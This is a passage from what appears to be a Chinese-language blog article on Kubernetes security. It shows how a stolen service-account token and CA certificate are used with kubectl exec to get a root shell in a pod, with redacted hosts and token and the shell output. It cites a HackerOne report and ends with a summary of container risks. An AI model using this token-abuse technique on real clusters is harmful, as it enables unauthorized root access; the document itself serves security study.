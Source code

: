     NAMESPACE   NAME      READY STATUS RESTARTS   AGE
    ██████████  ████████    1/1


但是无法对指定pod进行操作，获取返回的shell。通过kubectl 对指定pod执行describe 和get secret找到token所在位置。使用token及证书实现对指定pod的命令执行

    $ kubectl --certificate-authority ca.crt --server https://████ --token "█████.██████.███" exec -it w█████████ -- /bin/bash
    
    Defaulting container name to web.
    Use 'kubectl describe pod/w█████████' to see all of the containers in this pod.
    ███████:/# id
    uid=0(root) gid=0(root) groups=0(root)
    █████:/# ls
    app  boot   dev  exec  key  lib64  mnt  proc  run   srv  start  tmp  var
    bin  build  etc  home  lib  media  opt  root  sbin  ssl  sysusr
    ███████:/# exit


详细利用过程可参考报告 `https://hackerone.com/reports/341876`


# 六、总结

在DevOps、微服务等云原生应用的开发过程中，kubernetes技术提供了极大的便利，经过近几年的发展，显示了强大的优势。近年来，由于容器以及容器应用环境引发的安全风险与安全事件不断的被曝出，集群组件、容器镜像、暴露的API、容器的隔离等问题成为了容器使用时需要着重考虑的问题。 

# 文章背景
此文章写于离开乙方公司进入甲方之前，花了比较多的时间来学习K8S和容器安全方面的知识。